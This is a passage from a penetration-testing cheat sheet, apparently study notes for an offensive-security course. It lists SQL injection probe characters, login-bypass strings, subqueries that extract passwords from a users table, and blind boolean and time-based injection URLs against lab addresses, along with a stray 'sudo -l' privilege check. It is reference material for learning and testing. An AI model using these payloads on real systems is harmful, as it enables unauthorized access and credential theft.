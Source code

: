 - Execute **`sudo -l`** to check for available sudo privileges.

# **SQLi**

For comprehensive information on SQL injection, please refer to the [PortSwigger SQL Injection Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet).

## **SQL Injection Payloads**

```sql
'
)'
"
`
')
")
`)
'))
"))
`))
'-SLEEP(30); #
```

### **Login Bypass Examples**

- Both user and password or specific username and payload as password:
    - **`' or 1=1 --`**
- User bypass with specific conditions:
    - **`' or '1'='1`**
    - **`' or 1=1 --+`**
    - **`user' or 1=1;#`**
    - **`' and 1=1#`**
    - **`user' or 1=1 LIMIT 1;#`**
    - **`user' or 1=1 LIMIT 0,1;#`**
    - **`offsec' OR 1=1 -- //`**
- Advanced examples:
    - **`' or 1=1 in (select @@version) -- //`**
    - **`' OR 1=1 in (SELECT * FROM users) -- //`**
    
    **Note:** If a query accepts only one column, use **`' or 1=1 in (SELECT password FROM users) -- //`**. To retrieve a specific user password, use **`' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //`**.
    

### **Boolean-Based Blind SQL Injection**

- Example:
    - **`http://192.168.50.16/blindsqli.php?user=offsec' AND 1=1 -- //`**

### **Time-Based Blind SQL Injection**

- Example:
    - **`http://192.168.50.16/blindsqli.php?user=offsec' AND IF (1=1, sleep(3),'false') -- //`**
